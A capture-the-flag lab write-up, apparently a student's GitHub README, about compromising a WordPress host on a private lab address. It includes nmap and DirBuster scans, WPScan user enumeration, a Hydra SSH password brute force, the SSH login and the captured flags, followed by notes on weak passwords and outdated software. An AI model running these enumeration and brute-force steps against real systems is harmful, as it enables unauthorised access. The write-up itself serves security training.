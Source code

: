 # Project-3

## Contents
### - Exposed Services
### - Exploitation
### - Vulnerability Summary

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**nmap -A -v -T4 -Pn 192.168.1.110** was run to give the following results.

![nmapscanp3](https://user-images.githubusercontent.com/84904417/128713951-338c8f11-330f-4e93-94ea-19239ca6e180.png)
![nmapscan2p3](https://user-images.githubusercontent.com/84904417/128713989-a6b44a71-90e4-4953-8f5e-4a6141242a95.png)
![nmapscan3p3](https://user-images.githubusercontent.com/84904417/128714022-6ed4ce7b-8389-40b6-8ca8-7dac0dde6b7d.png)

# Exploitation - Flag 1
flag1{b9bbcb33e11b80be759c4e844862482d}

We used Dirbuster to find the /services.html page, the flag was found in the page cource code.

```
root@Kali:~# dirbuster 
Pickedup_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Aug 03, 2021 2:49:55 AM java.util.prefs.FileSystemPreferences$1 run
INFO: Created user preferences directory.
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
File found: /.hta.php - 403
File found: /.htaccess.php - 403
File found: /.htpasswd.php - 403
Dir found: / - 200
Dir found: /.hta/ - 403
Dir found: /.htaccess/ - 403
Dir found: /.htpasswd/ - 403
File found: /index.html - 200
File found: /about.html - 200
File found: /service.html - 200
```

# Exploitation - Flag 2
flag2{fc3fd58dcdad9ab23faca6e9a36e581c

Finding the first flag allowed us to discover that wordpress was hosted. This then lead us to exploit the application to find flag 2.

```
[32m[+] [0m URL: http://192.168.1.110/wordpress/
 [32m[+] [0m Started: Mon Aug  2 03:40:57 2021

Interesting Finding(s):

 [32m[+] [0m http://192.168.1.110/wordpress/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

 [32m[+] [0m http://192.168.1.110/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

 [32m[+] [0m http://192.168.1.110/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

 [32m[+] [0m http://192.168.1.110/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

 [32m[+] [0m WordPress version 4.8.7 identified (Insecure, released on 2018-07-05).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.8.7'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.110/wordpress/, Match: 'WordPress 4.8.7'

 [34m[i] [0m The main theme could not be detected.


 [34m[i] [0m User(s) Identified:

 [32m[+] [0m steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

 [32m[+] [0m michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

 [33m[!] [0m No WPVulnDB API Token given, as a result vulnerability data has not been output.
 [33m[!] [0m You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

 [32m[+] [0m Finished: Mon Aug  2 03:40:59 2021
 [32m[+] [0m Requests Done: 17
 [32m[+] [0m Cached Requests: 35
 [32m[+] [0m Data Sent: 3.757 KB
 [32m[+] [0m Data Received: 12.015 KB
 [32m[+] [0m Memory used: 119.039 MB
 [32m[+] [0m Elapsed time: 00:00:01
wpscan.txt
Displaying wpscan.txt.
```

**Steven** and **Michael** were identified as two usernames on the server. Hydra was then used to brute force Michaels password.

```
root@Kali:~# hydra -l michael -P michaelwordlist.txt 192.168.1.110 -t 4 ssh -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-06 21:53:32
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://192.168.1.110:22/
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "MICHAEL" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "michael" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "Michael" - 3 of 3 [child 2] (0/0)
[22][ssh] host: 192.168.1.110   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-06 21:53:35
```

Michaels password was his own name. On finding the pair we used his credentials to ssh into the server.

```
root@Kali:~# ssh michael@192.168.1.110
michael@192.168.1.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Tue Aug  3 16:38:01 2021 from 192.168.1.90
michael@target1:~$ 
```

The **find** command was then used to locate flag 2.

```
michael@target1:~$ find / -type f -name flag2.txt -print 2>/dev/null
/var/www/flag2.txt
michael@target1:~$ cat /var/www/flag2.txt 
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
```

## Vulnerabilities

There are many vulneribilties present on the target 1 VM. The ones exploited here relate to weak passwords and insecure appications. To be secure passwords must be complex, ideally a combination of letters, numbers and symbols. Changing them regularly is also recommended. This breach may have been stopped in the early stages had Michael's password been complex as brute force would have been unlikely to return a match. Wordpress was vulnerable to exploitation here because it wasn't updated, which is another essential security task.  
